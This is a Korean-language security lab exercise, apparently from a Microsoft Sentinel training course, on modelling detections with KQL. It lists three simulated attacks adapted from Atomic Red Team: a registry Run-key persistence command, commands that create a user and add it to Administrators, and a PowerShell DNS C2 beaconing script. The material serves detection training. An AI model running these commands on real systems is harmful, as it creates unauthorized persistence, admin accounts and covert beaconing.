 ﻿# 모듈 7 - 랩 1 - 연습 4 - 검색 모델링 이해

### 작업 1: 공격 이해

이 연습에서는 특별한 작업을 수행하지 않으며  수행할 공격의 설명만 확인합니다.

이 공격의 패턴은 오픈 소스 프로젝트 https://github.com/redcanaryco/atomic-red-team을 토대로 작성된 것입니다.

**참고** 일부 설정을 이 랩의 목적에 따라 더 짧은 기간에 트리거됩니다.

#### 공격 1 - 레지스트리 키 추가를 통한 지속성 적용

이 공격은 명령 프롬프트에서 실행합니다.

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 공격 2 - 사용자 추가 및 권한 상승

이 공격에서는 공격자가 새 사용자를 추가한 다음 권한을 Administrators 그룹으로 높입니다.  그러면 권한이 있는 다른 계정으로 로그온할 수 있게 됩니다.

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 공격 3 -DNS/C2 

이 공격에서는 C2(명령 및 제어) 통신을 시뮬레이트합니다.

```PowerShell


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### 작업 2: 검색 모델링 이해

이 랩에서 사용하는 공격 검색 구성 주기에는 모든 데이터 원본이 포함됩니다. 하지만 실제로는 두 가지 데이터 원본만 중점적으로 검색합니다.

검색을 작성하려면 먼저 KQL 문을 작성해야 합니다.  여기서는 호스트를 공격할 것이므로 KQL 문 작성을 시작하는 데 필요한 대표 데이터가 제공됩니다.

다음 랩에서는 엔드포인트용 Defender 및 Sysmon 포함 Windows가 설치된 Windows 호스트에서 동일한 공격을 실행합니다.  검색을 작성하는 과정에서 각 문의 데이터 정규화 방식 차이를 확인할 수 있습니다.

KQL 문을 완성한 후에는 분석 규칙을 만듭니다.

규칙이 트리거되어 경고와 인시던트가 생성되면 조사를 진행하여 보안 운영 분석자의 조사 과정에 도움이 되는 필드가 제공되고 있는지를 확인합니다.

그리고 나서 필요에 따라 분석 규칙의 다른 부분을 변경합니다.

# 연습 5 계속 진행
